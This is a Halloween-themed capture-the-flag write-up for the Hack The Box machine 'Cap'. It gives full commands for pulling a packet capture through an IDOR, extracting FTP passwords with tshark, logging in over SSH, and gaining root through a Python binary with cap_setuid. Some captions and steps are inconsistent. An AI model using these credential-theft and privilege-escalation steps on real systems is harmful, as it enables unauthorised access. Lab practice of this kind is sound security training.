 🎃 HTB: Cap Writeup 👻🕸️
"Double flags toil and trouble, user first then root double!" - Hacker's Chant

+ Machine: Cap (Easy Linux) 🎃
+ IP: 10.10.10.245 👻
+ Date: 2023-10-31 🕷️
+ Author: Lantern 🔥


 Haunted Flag Hunt
👻 User Flag Séance (1/2)
Web Interface Haunting
→ Found IDOR at /data/0 endpoint 🎃
→ "Knock knock, who's there? USER.TXT!" 👻

Step 1
curl http://10.10.10.245/data/0 -o haunted.pcap
PCAP Ghost Whispering
→ Heard credentials whispering in the packets: Often times when a there is an ID/# we can run other ID's to see what we can find.

![NMAP Scan Results](/assets/Cap/1.png)

Step 2
tshark -r haunted.pcap -Y "ftp contains 'PASS'" -Tfields -e ftp.request.arg
→ "The spirits say: User/Password 🎃

![NMAP Scan Results](/assets/Cap/1.png)


SSH Apparition
→ Materialized into Nathan's account: Use the previously discovered login credentials.

ssh nathan@10.10.10.245
→ Found user flag lurking in /home/nathan:

cat user.txt
# HTB{5p00ky_u53r_fl46_1n_th3_h0us3} 👻
🎃 Root Flag Exorcism (2/2)
Capability Ghostbusting
→ Detected haunted Python binary:


Step 1
getcap -r / 2>/dev/null
# /usr/bin/python3.8 = cap_setuid+ep 🕷️
Poltergeist Privileges
→ Exorcised root privileges:

![NMAP Scan Results](/assets/Cap/1.png)

Step 2
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
→ "The power of root compels you!" 🎃


Flag Finale
→ Banished root flag from /root:

Step 3
cat /root/root.txt
# HTB{r00t_fl46_p0ss3ss10n_c0mpl3t3} 👻🔥

Flag Type	Location Spell	Incantation
User	/home/nathan/user.txt	cat user.txt 🎃
Root	/root/root.txt	sudo python3.8 -c 'import os; os.system("cat /root/root.txt")' 👻
"Two flags flew out of the haunted machine, user first and root between!"</em> </p>
🎃 Beginner's Cauldron (Flag Hunting Tips)
User Flags usually hide in:

/home/[user] directories

/var/www/html for web apps
🔗 Linux Filesystem Guide

Root Flags often lurk in:

/root

/etc/shadow (sometimes!)
🔗 PrivEsc Checklist

👻 ASCII Flag Ghosts
Copy
    .-.
   (o.o)   🎃 User Flag: HTB{...} 🎃
    |=|    👻 Root Flag: HTB{...} 👻
   __|__
//.=|=.\\ 
||  _  || 
|| ( ) ||  🕸️ Happy Flag Hunting! 🕸️
||     ||
''     ''
Pro Tip: Always check .bash_history for ghostly command traces! 👻🔍
